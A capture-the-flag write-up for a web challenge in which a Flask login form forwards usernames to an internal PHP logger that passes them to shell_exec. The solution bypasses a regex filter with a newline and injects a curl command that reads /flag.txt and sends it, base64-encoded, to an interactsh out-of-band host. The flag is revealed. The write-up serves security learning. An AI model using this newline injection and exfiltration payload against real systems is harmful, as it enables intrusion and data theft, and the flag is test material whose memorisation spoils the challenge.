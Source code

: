 # New Way

**Difficulty:** Easy
**Category:** Web
**Source Code:** Available
**Author:** 0utc4st
**Description:** In life, we choose our own paths, don't let others do that for you.

## Source Code

- public app
```python
from flask import Flask, url_for, render_template, request, redirect, session
from flask_sqlalchemy import SQLAlchemy
import requests
from base64 import *

app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
db = SQLAlchemy(app)


class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(100), unique=True)
    password = db.Column(db.String(100))

    def __init__(self, username, password):
        self.username = username
        self.password = password


@app.route('/', methods=['GET'])
def index():
    if session.get('logged_in'):
        return render_template('home.html')
    else:
        return render_template('index.html', message="Hello!")


@app.route('/register/', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        try:
            db.session.add(User(username=request.form['username'], password=request.form['password']))
            db.session.commit()
            return redirect(url_for('login'))
        except:
            return render_template('index.html', message="User Already Exists")
    else:
        return render_template('register.html')


@app.route('/login/', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        u = request.form['username']
        p = request.form['password']
        data = User.query.filter_by(username=u, password=p).first()
        if data is not None:
            session['logged_in'] = True
            u=b64encode(bytes(u.encode('utf-8'))).decode('ascii')
            print(f"TTTTHHHHHHIIIIIISSSS ======>> {u}")
            #requests.post("http://php_app/index.php",data=f"user={u}&status=Successful")
            requests.get(f"http://php_app/index.php?user={u}&status=Successful")
            return redirect(url_for('index'))
        u=b64encode(bytes(u.encode('utf-8'))).decode('ascii')
        print(f"TTTTHHHHHHIIIIIISSSS ======>> {u}")
        #requests.post("http://php_app/index.php",data=f"user={u}&status=Unsuccessful")
        requests.get(f"http://php_app/index.php?user={u}&status=Successful")
        return render_template('index.html', message="Incorrect Details")


@app.route('/logout', methods=['GET', 'POST'])
def logout():
    session['logged_in'] = False
    return redirect(url_for('index'))

def init_db():
    with app.app_context():
        db.create_all()

if __name__ == '__main__':
    app.secret_key = "ThisIsNotASecret:p"
    init_db()
    app.run(host='0.0.0.0')
```

- private app

```php
<?php
$user = $_GET['user'] ?? '';
$status = $_GET['status'] ?? '';
$user = base64_decode($user);
if (!empty($user) && !empty($status)) {
    if(preg_match("/^.*[;()$|&]/", $user,$match)){
        echo "No No hacker not this time.";
    } else {
    $date = date('Y-m-d H:i:s');
    $command = "echo \"[+] Auth Attempt $date $user $status\" >> app_log";
    shell_exec($command);
    echo "Log entry added successfully.";
    }
} else {
    echo "Please provide both user and status parameters.";
}
?>
```

## Solution

let's start with the public app, it seems like a regular `flask` app that performs basic functionalities like user registration and authentication, nothing vulnerable there.

we move the private app, which is a `PHP` application that accepts 2 `GET` parameters: `user` and `status`, then performs some filtering, then runs a shell command which includes the content of the parameter `user` which hints for a potential command injection.

since this is a private app, wa can't talk directly to it, but we notice that when we try to authenticate in the flask app, the app sends our `username` and the relevant status to that private app.

this means we controle the value of the parameter `user` that `PHP` app receives, which is the same value that gets passed to the shell command.

but we see that the value is filtered with the `preg_match()` function :
```php
if(preg_match("/^.*[;()$|&]/", $user,$match)){
        echo "No No hacker not this time.";
    }
```

this means if our user containes any of these characters `;()$|&` which are essential characters to perform command injection,  the code stops execution.

BUT, this `preg_match()` function in this case can be bypassed with the `new line` character, in other words, any thing that comes after the `new line` won't get filtered cause in this case the `preg_match()` function only checking one line.

so now we can try to authenticate with a username that holds this value :

```bash
\n$(COMMAND)
```

with this we will have blind command execution, so to retrieve the flag we need to think of a trick.

one way to receive the flag without getting a shell is sending the content of the flag in a get request to a server that we control.

we can use [interactsh](https://app.interactsh.com/#/) for that, we get a url that we can use, any interaction with that URL will appear in the dashboard.

with this we can request that URL with content of the flag (encoded in base64) using this payload as the username :

```bash
\n$(curl http://URL?flag=$(base64 -w 0 /flag.txt))
```

let's try that :

```plaintext
└─$ curl http://127.0.0.1:5000/login/ -X POST -d 'username=%0a$(curl+http://ljtcekwezjmnyjemupubxr4igraqk4oh1.oast.fun?flag=$(base64+-w+0+/flag.txt))&password=test'
```

after executing that, we immediately get a request to our interactsh web client :

![flag](writeup_images/flag.png)

we got the content of the flag in base64, let's decode that :

```plaintext
└─$ echo 'bmV4dXN7NHNfVEgzeV9TNHlfX19OM3dfTDFuM19OM3dfVzR5fQ==' | base64 -d
nexus{4s_TH3y_S4y___N3w_L1n3_N3w_W4y}
```

and we have the flag!

## Flag

`nexus{4s_TH3y_S4y___N3w_L1n3_N3w_W4y}`
